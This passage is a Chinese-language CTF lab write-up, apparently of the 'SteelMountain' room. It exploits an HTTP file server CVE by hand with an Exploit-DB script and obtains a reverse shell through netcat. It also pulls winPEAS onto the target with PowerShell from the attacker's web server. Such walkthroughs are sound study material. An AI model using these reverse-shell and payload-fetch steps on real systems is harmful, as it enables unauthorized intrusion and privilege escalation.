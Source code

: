 我们还是使用之前提到的CVE编号所对应的漏洞来获取初始访问权限，然而，这次我们手动使用exp而不是通过msf来执行exp。

> exp链接（一个python脚本）：https://www.exploit-db.com/exploits/39161

为了使这种攻击起作用，需要同时激活Web服务器和netcat侦听器，如果你的系统上还没有 netcat 静态二进制文件，那么你可以从GitHub下载。我们还将使用 winPEAS来枚举目标机系统信息。

> netcat二进制文件：https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
>
> winPEAS（在下载页选择winPEASx64.exe）：https://github.com/carlospolop/PEASS-ng/releases/tag/20221009

为了方便起见，我新建了一个文件夹放置刚才下载的三个文件（exp脚本使用之前--记得修改好ip和端口，下载的netcat二进制文件要修改名称为nc.exe）：

> 查看exp脚本内容，我们能够发现该脚本已经指定要调用名称为nc.exe的文件

![image-20221013221642540](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013221642540.png)

然后需要开启3个独立的终端窗口来完成攻击：

终端1-通过python启用 HTTP web 服务器

```shell
#终端界面进入到/home/hekeats/桌面/SteelMountain目录
#python3 -m http.server 8000 无响应
python2 -m SimpleHTTPServer 80
```

终端2-设置netcat 监听器

```shell
nc -nvlp 1234
```

终端3-执行exp进行攻击（注意所用脚本的python版本）

```shell
#终端界面进入到/home/hekeats/桌面/SteelMountain目录
python2 39161.py 10.10.42.153 8080 #第一次执行会将SteelMountain/目录下的nc.exe上传到目标系统
python2 39161.py 10.10.42.153 8080 #第二次执行会发送一个反向shell回连到攻击机监听器
```

在终端2界面 成功获取目标机的shell：

![image-20221013222436872](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013222436872.png)

使用Powershell相关命令将winPEAS脚本拉取到目标系统上：

```cmd
#使用终端2界面
cd C:\Users\Bill\Desktop
#Format is "powershell -c "command here"
powershell -c wget "http://10.14.30.69/winPEASx64.exe" -outfile "winPEAS.exe"
```

运行winPEAS脚本（枚举目标系统的信息，如服务名称等）：

```cmd
#使用终端2界面
winPEAS.exe
#我们也可以运行powershell -c 命令手动查找服务名称:powershell -c "Get-Service"
```
